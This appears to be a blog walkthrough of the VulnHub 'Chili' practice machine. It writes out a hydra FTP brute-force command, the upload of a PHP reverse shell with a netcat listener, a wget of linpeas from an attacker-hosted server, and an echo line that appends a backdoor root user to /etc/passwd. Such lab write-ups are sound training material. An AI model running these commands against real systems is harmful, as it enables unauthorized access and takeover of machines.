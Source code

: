 ```yaml
---
layout: post
title: "Chili"
date: 2020-10-09
ctf: true
excerpt: "Walkthrough for Chili on Vulnhub"
tags: [ftp brute force, improper privileges, /etc/passwd]
comments: false


---
```


[Chili](https://www.vulnhub.com/entry/chili-1,558/) is a vulnerable system found on VulnHub. Below are the steps I utilized to compromise this vulnerable box.

First, after importing the machine, I ran **netdiscover -i eth0** to discover the IP address of the host.

![Chili netdiscover](/assets/img/Chili1.png)

Next, I ran **threader3000** to enumerate the TCP ports that were open on this host and let it complete it's recommended nmap scan.

![Chili threader3000 nmap](/assets/img/Chili2.png)

It appears that there is both a web server and FTP running on this host. I first looked at the website to see if there was anything useful on it to start off. This returned a site with a picture of a chili pepper and nothing else. A review of the source code of the page revealed nothing of interest either.

![Chili website](/assets/img/Chili3.png)

Next, I ran **gobuster dir -u http://[machine ip]** to see if it came up with any results. Unfortunately this did not return any results.

I next turned my attention to the open FTP port. anonymous FTP was not open, but I decided to attempt to brute force FTP with hydra. I utilized the username of **chili** based on a hint listed on the vulnhub website. The command I used was **hydra -s 21 -l chili -P /usr/share/seclists/Passwords/Common-Credentials/best1050.txt  -t 20 [machine ip] ftp -V**. After a bit of time, the password was cracked:

![Chili Hydra brute force](/assets/img/Chili4.png)

Now that we have ftp credentials, lets log in and look around. After initially logging in, it appears that we are in the **/home/chili** directory.

![Chili ftp access](/assets/img/Chili5.png)

We know SSH isn't running, or else we could upload a key to gain access. Since only FTP and HTTP are running, let's upload a root shell. First, let's run **cd /var/www/html** to navigate to the default HTML folder for Apache. Once here, we can run **ls -al** to list the directory contents to confirm we are in the main folder for the hosted website.

![Chili ftp html directory](/assets/img/Chili6.png)

Next, let's upload [PenTestMonkey's Reverse PHP Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). We will need to modify the IP address and port as designated with the **// CHANGE THIS** section in the code with your attacker's IP and port of your choice to connect to.

![Chili Reverse PHP Shell modification](/assets/img/Chili7.png)

Next, from your FTP session, run **cd /var/www/html/.nano** run **lcd [path to where you saved the reverse PHP shell]** followed by **put reverse-shell.php** to upload your PHP reverse shell. We did this as through testing we did not have the permissions to upload a shell to the /var/www/html folder, but the .nano subfolder we had permissions to access.

![Chili ftp upload reverse shell](/assets/img/Chili8.png)

Next, in another terminal window, run **nc -nvlp [port #]** where port # is the port you specified in the reverse shell. This will create a listener on this port on your attacker machine.

![Chili nc listener](/assets/img/Chili9.png)

Next, navigate to **http://[machine ip]/.nano/reverse-shell.php**. Unfortunately, this does not create a shell, this is because we did not make the php file executable. From the FTP session, run **chmod 777 reverse-shell.php** and then try to reload the web page.

![Chili chmod reverse-shell.php](/assets/img/Chili10.png)

![Chili webpage reverse PHP shell](/assets/img/Chili11.png)

Now, go back to your netcat terminal window, you should have a reverse shell. Running **whoami** will let you know you are currently the **www-data** user.

![Chili www-data foothold](/assets/img/Chili12.png)

Let's run **linpeas** in order to enumerate this host for potential avenues of privilege escalation to root. In order to do so, you will need to host a python HTTP server in a folder that has the **linpeas.sh** script on your attacker machine. The command to run to host an HTTP server is **python3 -m http.server**.

![Chili attacker python http server](/assets/img/Chili13.png)

Next, from your foothold as www-data, run **cd /tmp**, **wget http://[attacker ip]:8000/linpeas.sh**, and finally, **chmod 777 linpeas.sh**. The **/tmp** folder is used as it is typically writeable by any user, the 2nd command downloads the script from your attacker machine, and the 3rd one makes it executable. 

![Chili linpeas.sh](/assets/img/Chili14.png)

Now, run **./linpeas.sh** and review the results. After review, it appears that we can write to the **/etc/passwd** file.

![Chili linpeas.sh output](/assets/img/Chili15.png)

Next, let's run **cd /etc** followed by **ls -al|grep passwd** to confirm we have write access to this file. It appears that we do.

![Chili /etc/passwd](/assets/img/Chili16.png)

Let's use openssl to generate a password of **pwned** and use it to create a **root2** user and add it to the /etc/passwd file with **echo "root2:pr652V7MdLRRg:0:0:root:/root:/bin/bash" >> /etc/passwd**

![Chili create 2nd root user](/assets/img/Chili17.png)

Next, let's run **su root2** and enter the password we just created (**pwned**). Running **whoami** shows you are now running as root.

![Chili su root2](/assets/img/Chili18.png)

Finally, let's run **cd /root** followed by **ls -al** and finally **cat proof.txt** to finish this box. 

![Chili proof.txt](/assets/img/Chili19.png)

